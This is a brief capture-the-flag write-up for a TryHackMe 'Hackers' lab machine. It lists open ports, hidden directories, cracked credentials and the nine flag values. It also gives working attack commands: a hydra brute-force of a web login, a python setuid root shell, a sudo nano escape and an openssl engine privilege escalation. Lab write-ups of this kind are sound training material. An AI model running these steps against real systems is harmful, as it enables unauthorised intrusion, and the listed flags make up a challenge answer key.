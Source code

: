 # KOTH HACKERS<br />

-------------
## IP: `10.10.68.205`<br />

----------------------
### Open Ports -<br />

```
21
22
80
9999
```

----------------------
#### hidden directories -<br />

```
/news
/contact
/img
/staff
/backdoor
```

----------------------
> first flag -<br />

```
thm{b63670f7192689782a45d8044c63197f}
```
`in the source code of default page on port 80`<br />

> second flag -<br />

```
thm{678d0231fb4e2150afc1c4e336fcf44d}
```
`in the hidden files on anonymous login with ftp ls  -la`<br />

-----------------------
##### Credentials -<br />


username: rcampbell<br />
password: cinderella<br />

username: gcrawford<br />
password: evelina<br />

`via hydra`<br />

-----------------------
> third flag -<br />

```
thm{12361ad240fec43005844016092f1e05}
```
`in the hidden files in ftp login with rcampbell ls -la` <br />

-----------------------
##### Login via ssh with rcampbell and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

##### Crack the passphrase for `id_rsa` of gcrawford<br />

```
id_rsa:stephani
```
##### privilege escalation of `gcrawford` user<br/>

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##### Crack the password for [backdoor](http://10.10.68.205/backdoor)<br />

username: plague<br />
password: tonyhawk<br />

```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.68.205 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```

##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using -<br />

```
sudo openssl req -engine ./shell.so
```

-----------------------
> fourth flag - <br />

```
thm{b94f8d2e715973f8bc75fe099c8492c4}
```
`in the root directory`<br />
> fifth flag -<br />

```
thm{d8deb5f0526ec81f784ce68e641cde40}
```
`in the home directory of gcrawford, within business.txt`<br />

> sixth flag - <br />

```
thm{879f3238fb0a4bf1c23fd82032d237ff}
```
`in the home directory of production`<br />

> seventh flag - <br />

```
thm{3ce2fe64055d3b543360c3fc880194f8}
```
`in the home directory of tryhackme`<br />

> eighth flag -

```
thm{2124a8091b664c98a0e5bdbb7a4fa1cb}
```
`in /etc/vsftpd.conf`<br />

> ninth flag -

```
thm{068754683abe0bf81fb621ce55a91964}
```
`in /etc/ssh/sshd_config`
